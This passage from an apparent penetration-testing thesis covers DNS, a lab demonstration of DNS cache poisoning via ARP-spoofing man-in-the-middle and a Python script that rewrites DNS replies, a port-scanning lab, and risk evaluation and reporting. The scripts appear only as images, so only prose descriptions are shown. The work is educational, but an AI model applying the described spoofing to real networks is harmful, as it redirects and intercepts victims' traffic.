
\includegraphics[width=160mm,scale=1.6]{Resources/General/DNScomponents.jpg}
\caption{Domain Name System Functions \label{DNS}}
\end{figure}

\textbf{Name Space}

DNS has a hierarchical structure consisting a single, complex, multi-level architecture, allowing names to be organized from most general to most specific. The different levels of the hierarchy are \cite{charles2005}\cite{pyles2016}:

\begin{itemize}
    \item Root Domain
    \item Top-Level Domains (TLDs)
    \item Second-Level Domains 
    \item Subdomains
\end{itemize}

\textbf{Name Registration}

Name registration is used to enter individual names into the DNS distributed database. Using a hierarchical arrangement of authorities, a centralized authority defines the name space's shape and structure and handles registration of names \cite{charles2005} .\newline

\textbf{Name Resolution}

The name resolution process is handled by two basic software element: name servers and name resolvers.

A \textit{name server} runs on hardware servers, with its main duty being the translation of a domain name into an IP address that is used to route communications between nodes, by responding to requests. Normally if the server does not know a requested translation it will ask a higher-level domain server, and the process continues recursively. To increase performance, a server will typically remember (cache) these translations for a certain amount of time \cite{pyles2016}\cite{charles2005}.

From the client's point of view, the procedure begins with the application sending a DNS query message to its designated DNS server that contains the name to be resolved. The server then replies with a message containing the IP address corresponding to that name. Using the supplied address, the application can then transmit a message to the intended destination \cite{pyles2016}.

\textit{Name resolvers} are the intermediaries between the client making a request for a network application and the DNS name servers. Their duty is to issue requests to a name server, using the name provided by the client \cite{charles2005}.

\subsection{DNS Cache Poisoning}

As mentioned above, to improve performance, DNS servers store a temporary cache database that contains a list of all recently accessed domain names and the addresses that DNS calculated for them, every first time a request was made. A DNS cache becomes "poisoned" when unauthorized domain names or IP addresses are inserted into it. This can be performed either through computer malware or a network attack, where invalid DNS entries are inserted into the cache or replace existing ones. The meaning of this attack is to redirect the victim to the attacker's custom domain page, possibly containing malicious content. This attack is also referred as DNS spoofing \cite{dns2009doc}.


In this lab, a DNS cache poisoning attack will be demonstrated. As shown in the following picture, before performing the attack, the victim is able to properly communicate with the requested host.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns1.png}
    \caption{DNS Cache Poisoning - Ping responses before the attack.\label{DNS1}}
\end{figure}

The script used to carry out the attack is shown in Figures \ref{DNScode1} and \ref{DNScode2}.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Code/DNS1.png}
    \caption{DNS Cache Poisoning - Python Code part 1\label{DNScode1}}
\end{figure}

 After importing the required libraries, we have the "\textit{parse\_args()}" function, responsible to read, parse and return the arguments the attacker has given and insert a Firewall rule to be able to forward packets.
 
\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Code/DNS2.png}
    \caption{DNS Cache Poisoning - Python Code part 2\label{DNScode2}}
\end{figure}

The "\textit{spoof\_packet(packet)}" method requires a packet as an argument, which is taken from the queue created at line 66. Its function is to read the packet's content, ensure it is a DNS reply and modify it, so it will show that it was sent from the specified address and will direct the victim to the selected page. Afterwards, there is the "\textit{run\_queue()}" procedure that is responsible for the calls of the above functions, the initiation of the \textbf{NetfilterQueue} and association of the queue and the "\textit{run\_queue()}" procedure. In case the attack is interrupted, the command  \newline \textbf{\textit{iptables --flush}} \newline will remove the rule added in the beginning, to complete and end the attack.

Before performing the attack, we make sure to execute the ARP spoofing attack shown previously, because it is important that the attacker is the man-in-the-middle. Afterwards, we proceed to execute the script. The output of our script is shown in Figure \ref{DNS2}. Whenever a DNS request for the specified remote host arrives from the victim, the response packet is modified and sent to the target.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns2.png}
    \caption{DNS Cache Poisoning - Code Execution.\label{DNS2}}
\end{figure}

As a result, the victim is redirected to the attacker, even though the same remote host was requested. This is shown in Figure \ref{DNS3}, where the victim tries to ping google.com but the responses are from a different source IP address, which is the attacker's local IP.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns3.png}
    \caption{DNS Cache Poisoning - Trying to ping remote host during the attack.\label{DNS3}}
\end{figure}

\section{Port Scanning}

\subsection{TCP/IP Ports}

A typical host on a TCP/IP internetwork has many different software application processes running concurrently, each of them generating data to send, to either TCP or UDP \cite{pyles2016}. To demultiplex a sequence of IP datagrams and properly associate each one of them with a process, both TCP and UDP packet headers contain two addressing fields. The \textit{Source Port} and the \textit{Destination Port}. These port numbers are 16 bits in length, taking values from 0 to 65,535. They identify the originating process on the source machine and the destination process on the destination machine, respectively \cite{charles2005}.

Before transmission, an application specifies the source and destination port it wishes to use for the communication. These are are encoded into the TCP or UDP header, depending on the transport layer protocol used \cite{charles2005}.

There is a certain amount of port numbers reserved for particular services, like File Transfer Protocol (FTP), Simple Mail Transfer Protocol (SMTP), Hypertext Transfer Protocol (HTTP) and many other. The reason for this is for identifying particular processes on a server and ease the communication between the two services \cite{pyles2016}.
Assignment and coordination of port number are managed by the Internet Assigned Numbers Authority (IANA). The organization has divided the number of ports into three ranges, as shown in Table \ref{Ports} \cite{charles2005}.

\begin{table}[H]
\label{Ports}
\centering
\begin{tabular}{| c | c | m{10em} |}
\multicolumn{3}{c}{\textbf{\large{Port Number Ranges}}} \\
\hline
\hline
\small{\textbf{Port Range Name}} & \small{\textbf{Port Number Range}} & \small{\textbf{Description}} \\
\hline

\small{Well-Known Port Numbers} & \small{0 to 1,023} & \small{Managed by IANA and reserved for only the most universal TCP/IP applications and protocols, using the TCP/IP RFC process.\footnote{Request For Comments (RFC) is used for consensus-based standardization, managed by the Internet Engineering Task Force (IETF). Before a proposal will be considered for the Internet standardization process, it must be published as an Internet Draft (ID). After passing through the statuses of \textit{Proposed Standard} and \textit{Draft Standard}, a draft becomes an \textit{Internet Standard} only if the IETF community and the IETF itself believe the proposal is mature enough and widely accepted. Lastly, an RFC is published, making the proposal a universal standard and that cannot be changed \cite{charles2005}. }} \\ 
\hline
\small{Registered Port Numbers} & \small{1,024 to 49,151} & \small{Usually used by applications that need to use TCP/IP but are not specified in RFCs.} \\ 
\hline
\small{Private/Dynamic Port Numbers} & \small{49,152 to 65,535} & \small{Neither reserved nor maintained by IANA. Can be used for any purpose.} \\
\hline 
 
\end{tabular}
\caption{TCP and UDP Port Number Ranges \cite{charles2005}}
\end{table}

\subsection{Port Scanning}

Port scanning is the process of scanning a host to determine which ports are accessible and which are in use. As mentioned before, ports can be either be TCP or UDP ports, depending on which the application is running on. Scans are available in many types, including \cite{whitaker2006}\cite{weidman2014}:

\begin{itemize}
    \item TCP Connect Scan
    \item UDP Scan
    \item SYN
    \item NULL
    \item FIN
    \item ACK
    \item Xmas Scan
    \item Dumb Scan
    \item Reverse Ident
    
\end{itemize}
A pre-requirement to perform a port scan is the IP address of the target host.

In the following lab, a TCP connect scan will be performed using the Python script shown in Figures \ref{PortCode1} and \ref{PortCode2}

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/PortScanner1.png}
    \caption{Port Scanning - Python Code part 1.\label{PortCode1}}
\end{figure}
\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/PortScanner2.png}
    \caption{Port Scanning - Python Code part 2.\label{PortCode2}}
\end{figure}

Below is the result after running the script against the victim machine. We can see that the target has 5 open ports in between port numbers 1 to 600. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/PortScan.PNG}
    \caption{Port Scanning - Target's Open Ports.\label{PortScan1}}
\end{figure}


\subsubsection{Collecting and presenting the results}

After executing any attacks, the tester proceeds to gather all the information found during the test. Any evidence will be very useful and important, in order to properly evaluate any risk and document the test and its outcome in detail. A strong report will play a significant role in portraying possible outcome of exploitation and help executive's make more clear decisions. Reporting is a fundamental component of a test, presented in detail in the following chapter, to properly complete and conclude a test.

\chapter{Analysis and Reporting}

\section{Findings and Evidence}
Proper documentation and evidence is an important part of a well-rounded penetration test. Collecting and saving evidence does not have a standard report template for penetration testers to follow. Examples of record keeping are log files, notes, description of events and impact, screenshots and many more depending on what is more comfortable to the tester but most importantly the, suggested by the organization, reporting model which the tester should always be in accordance with \cite{kim2018}. A very effective reporting model and environment would be a web server, where the penetration test team/Red Team will be able to record, track, analyze and review the whole team's steps and findings, with the potential of making the final report more thorough and easier to assemble. Without proper evidence and information, the audience of the final report cannot be sure about the findings and their severity, having a limited view of the test's outcome and making unfit decisions as a consequence. Furthermore, other testers will not be able to contribute to the work or even take over when needed.


\section{Risk Evaluation}
Discovering vulnerabilities is important, but being able to estimate the associated risk is just as important. Security concerns might be identified during a penetration test. On the other hand, problems may not be discovered until the system or application is actually compromised and/or under attack. Members of an organization's Red Team should be in a position to understand the potential impact of a risk as much as possible and prioritize accordingly. Without proper risk evaluation, an opportunity might rise for the attacker. If a vulnerability or an incident is not properly assessed or mishandled, the attacker will have the possibility to penetrate the system, having a harmful impact as a result \cite{owasp2014}\cite{nist2008}.

A risk analysis model is based on the factors that it can be broken down to. Therefore, a risk model can be something objective, where every penetration tester or security analyst can follow his own, depending on his/her experience and his/her understanding of risk and vulnerabilities. 
The, presented below, model follows the structure and approach of the OWASP Testing Guide\footnote{See: \url{https://www.owasp.org/index.php/OWASP_Testing_Project}} and associates risk with the \textit{impact} of a successful exploit and the \textit{likelihood} of the attack to take place \cite{owasp2014}. Those are the two fundamental elements that one should take into consideration, in order to estimate the potential risk.

\subsubsection{Estimating Likelihood}

After identifying a risk, the first step to determining its severity, is to estimate its likelihood of exploitation against that risk. The preciseness of the estimation is not the goal in this step, but the general understanding of whether the likelihood is low, medium, or high is sufficient. The factors that will help the estimation can be split into two sets, where the first set is related to the threat agent involved. At this point, it is important to note that there might be multiple threat agents able and willing to execute the attack, so it is usually best to use the worst-case scenario \cite{owasp2014}.

The factors related to the threat agent are the following:
\begin{itemize}
    \item The technical skill level of the attacker.
    \item Motive behind the attack and potential reward.
    \item Resources and opportunities required (i.e. computer and software resources, any kind of access).
    \item How large is the group of attackers? (e.g. anonymous internet users to system administrators).
\end{itemize}

Of course, every vulnerability is different, such is every risk. Thus, the second set of factors is related to the vulnerabilities involved and their different characteristics. The tester's goal is to determine the difficulty of discovering and abusing a certain weakness in the system. The associated factors are \cite{owasp2014}:

\begin{itemize}
    \item Ease of discovery.
    \item Ease of exploit.
    \item How well-known is this vulnerability to the group of threat agents?
    \item Intrusion Detection and the probability of the exploit to  be detected.
\end{itemize}

\subsubsection{Estimating Impact}

When considering the impact of a successful attack, two aspect to be considered. The first is the technical part, which is the impact on the application, the data it uses, and the functions it provides. The other aspect is the impact on the business and company operating the application. Ultimately, the business impact is more important. Although, since access to information might be restricted, the business consequences cannot be estimated completely but  providing as much detail about the technical risk will enable the appropriate business representative to make a decision about the business risk \cite{owasp2014}.

Technical impact factors resemble the traditional security areas of concern, which are confidentiality, integrity, availability and accountability. Those factors guide the tester to a better Understanding the degree of the impact, if the system were to be attacked \cite{owasp2014}.

\begin{itemize}
    \item Loss of confidentiality and sensitivity of data disclosed.
    \item Loss of integrity and potential damage to data and information.
    \item Loss of availability and interruption of service.
    \item Loss of accountability and traceability
\end{itemize}

Business impact is what supports the identified risks and shows the potential damage to the audience of any level. Accordingly, the business risk justifies investment in fixing security problems and protecting what is important to the organization. The business impact derives from the technical impact and damage on the second can have an immediate effect on the other. The following factors are crucial and common for many businesses \cite{owasp2014}.

\begin{itemize}
    \item Financial damage and effect on profit.
    \item Reputation damage.
    \item Non-compliance and violation.
    \item Privacy violation and personal information theft.
\end{itemize}

\subsubsection{Determining the Severity}

To make a final result, adjusting the model to the organization's priorities is necessary. The tester can choose to add factors that may be more significant. Also, some factors have different importance to the company that other, therefore, weighting factors will help to emphasize the crucial ones. These steps will produce better results, tailored to the organization's priorities, and excess investments and actions might be avoided \cite{owasp2014}.

\section{Reporting}
Upon completion of analysis, a report should be generated that identifies system, network, and organizational vulnerabilities and their recommended mitigation actions. For a penetration test report to be successful, the risks and their impact must be portrayed in such a way so that the listener can properly interpret the severity of the situation and as a result take more rounded and confident decisions \cite{nist2008}\cite{pci2015}.

As proposed by the Security Standards Council\footnote{Visit: \url{https://www.pcisecuritystandards.org/documents/Penetration-Testing-Guidance-v1_1.pdf}}, a penetration test report should abide with the following format \cite{pci2015}\cite{weidman2014}:

\begin{itemize}
    \item \textbf{Executive Summary.} Brief summary of the penetration test scope and results, business impact and high-level strategic roadmap to rectify the risks. Target audience is mainly non-technical executives.
    \item \textbf{Scope.} Detailed definition of the scope, techniques and targets.
    \item \textbf{Methodology.} The methodology and procedure implemented to execute the penetration test. Tools used and actions performed during the test.
    \item \textbf{Limitations.} Restrictions imposed during the test, e.g bandwidth restrictions, testing hours, special legal requirements, etc.
    \item \textbf{Test Presentation.} Complete documentation of the test with the according pictures and evidence provided.
    \item \textbf{Test Results.} Summarization of the test and results.
    \item \textbf{Findings.} A listing of all identified vulnerabilities accompanied with their ease of exploitation and risk rating. Also, contains positive test findings.
